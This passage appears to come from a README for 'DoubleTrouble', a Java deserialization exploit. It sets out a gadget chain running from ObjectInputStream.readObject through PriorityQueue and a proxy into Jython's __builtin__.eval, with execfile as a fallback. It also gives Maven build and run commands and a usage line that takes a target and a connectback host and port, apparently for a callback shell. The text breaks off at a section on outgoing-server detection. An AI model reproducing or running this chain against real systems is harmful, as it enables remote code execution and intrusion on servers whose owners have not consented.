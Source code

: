 ```java
         case 18:
            return __builtin__.eval(arg1, arg2); // here
         case 19:
            __builtin__.execfile(Py.fileSystemDecode(arg1), arg2);
            return Py.None;
```

I choose case 18, but I had case 19 as a potential fallback vector as well. So the complete gadget chain looks like this:

```
java.io.ObjectInputStream.readObject
    java.util.PriorityQueue.readObject
        java.util.PriorityQueue.heapify
            java.util.PriorityQueue.siftDownUsingComparator
                com.sun.proxy.$Proxy4.compare
                    org.python.core.PyMethod.invoke
                        org.python.core.PyMethod.__call__
                            org.python.core.PyMethod.instancemethod___call__
                                org.python.core.PyObject.__call__
                                    org.python.core.PyBuiltinFunctionNarrow.__call__
                                        org.python.core.BuiltinFunctions.__call__
                                            org.python.core.__builtin__.eval
                                                org.python.core.Py.runCode
```

## Build 

```
mvn clean package -DskipTests
```

## Running

```
java -cp target/dt.jar:libs/metro-8.1.22.jar DoubleTrouble
```

## Example

### Help

```
steven@jupiter:~/IdeaProjects/DoubleTrouble$ java -cp target/dt.jar:libs/metro-8.1.22.jar DoubleTrouble
java DoubleTrouble <target> <connectback:port> [outgoing ip]
```

### Auto detection of the outgoing server
